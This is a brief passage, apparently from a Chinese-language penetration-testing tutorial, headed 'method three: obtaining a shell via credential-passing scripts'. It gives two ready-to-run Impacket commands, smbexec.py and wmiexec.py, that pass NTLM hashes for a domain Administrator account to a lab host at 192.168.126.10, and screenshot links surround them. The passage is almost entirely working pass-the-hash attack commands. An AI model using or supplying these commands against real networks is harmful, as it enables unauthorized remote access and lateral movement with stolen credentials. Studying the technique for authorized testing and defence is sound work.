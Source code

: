 [![](assets/1706958938-db4066c583af6b7b2016f3432f4ec51b.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172307744-1507419811.png)

#### 法三：凭据传递脚本获取 shell

```plain
①smbexec.py
python smbexec.py -hashes 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab MAO/Administrator@192.168.126.10

②wmiexec.py
python wmiexec.py -hashes 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab MAO/Administrator@192.168.126.10
```

[![](assets/1706958938-83cdcd001be0a9854d133897b0d08548.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172308890-1103653495.png)
